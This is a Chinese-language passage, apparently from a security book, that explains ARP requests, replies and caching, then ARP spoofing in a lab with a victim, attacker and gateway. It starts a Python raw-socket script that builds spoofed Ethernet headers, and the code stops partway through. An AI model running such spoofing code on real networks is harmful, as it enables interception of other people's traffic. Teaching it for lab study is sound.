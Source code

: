 主机可能希望向同一子网中的另一台计算机发送消息。主机只知道 IP 地址，而在数据链路层发送消息需要 MAC 地址。在这种情况下，主机广播 ARP 请求。子网中的所有计算机都接收该消息。该值的以太网协议类型为 0x806。

## ARP 回复

预期用户用他们的 MAC 地址回复。此回复为单播，称为 ARP 回复。

## ARP 缓存

为了减少地址解析请求的数量，客户端通常会在短时间内缓存解析的地址。ARP 缓存的大小是有限的。当任何设备想要向子网中的另一个目标设备发送数据时，它必须首先确定该目标的 MAC 地址，即使发送方知道接收方的 IP 地址。这些 IP 到 MAC 地址映射源自每个设备上维护的 ARP 缓存。一个未使用的条目被删除，从而在缓存中释放一些空间。使用`arp –a`命令查看 ARP 缓存，如下图所示：

![The ARP cache](graphics/8583OT_03_07.jpg)

ARP 缓存

ARP 欺骗，也称为 ARP 缓存中毒，是一种攻击类型，攻击者会更改网关 ARP 缓存中受害机器的 MAC 地址以及受害机器 ARP 缓存中网关的 MAC 地址。该技术用于攻击局域网。攻击者可以通过 LAN 嗅探数据帧。在 ARP 欺骗中，攻击者向网关和受害者发送虚假回复。其目的是将攻击者的 MAC 地址与另一台主机（如默认网关）的 IP 地址相关联。ARP 欺骗用于主动嗅探。

现在，我们将使用一个示例来演示 ARP 欺骗。

网络中所有机器的 IP 地址和 MAC 地址如下：

<colgroup><col style="text-align: left"> <col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

机器名

 | 

IP 地址

 | 

MAC 地址

 |
| --- | --- | --- |
| Windows XP（受害者） | 192.168.0.11 | 00:0C:29:2E:84:7A |
| Linux（攻击者） | 192.168.0.10 | 00:0C:29:4F:8E:35 |
| Windows 7（网关） | 192.168.0.1 | 00:50:56:C0:00:08 |

让我们看看 ARP 协议头，如下屏幕截图所示：

![The ARP cache](graphics/8583OT_03_08.jpg)

ARP 报头

让我们通过代码来实现 ARP 欺骗，并逐行讨论：

```
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = '\x00\x0c\x29\x4f\x8e\x35'
victmac ='\x00\x0C\x29\x2E\x84\x7A'

gatemac = '\x00\x50\x56\xC0\x00\x08'
code ='\x08\x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

```